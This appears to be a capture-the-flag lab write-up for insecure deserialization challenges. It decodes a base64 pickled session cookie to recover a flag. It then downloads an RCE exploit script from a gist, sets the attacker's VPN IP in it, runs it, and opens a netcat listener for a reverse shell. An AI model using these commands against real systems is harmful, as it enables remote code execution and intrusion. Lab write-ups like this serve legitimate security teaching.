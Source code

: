 ### #1 **1st flag (cookie value)**

```
echo -n 'gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAOTVkNWFmYzZiMmNiNDI2M2FkOGU1ZmViMmE3MmJhYjBxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==' | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 23-23-09.png>)

### **#2 2nd flag (admin dashboard)**

![](<../../.gitbook/assets/Screenshot from 2020-08-26 23-23-51.png>)

## :cookie: \[Day 8] Insecure Deserialization - Remote Code Execution

### #1 **flag.txt**

```bash
wget https://gist.githubusercontent.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3/raw/f0fce6310455d8c345bbc9ec81f41d224896b9c5/rce.py
sed -i 's/YOUR_TRYHACKME_VPN_IP/10.9.101.193/' rce.py
python rce.py
```

```
nc -nvlp 4444
```

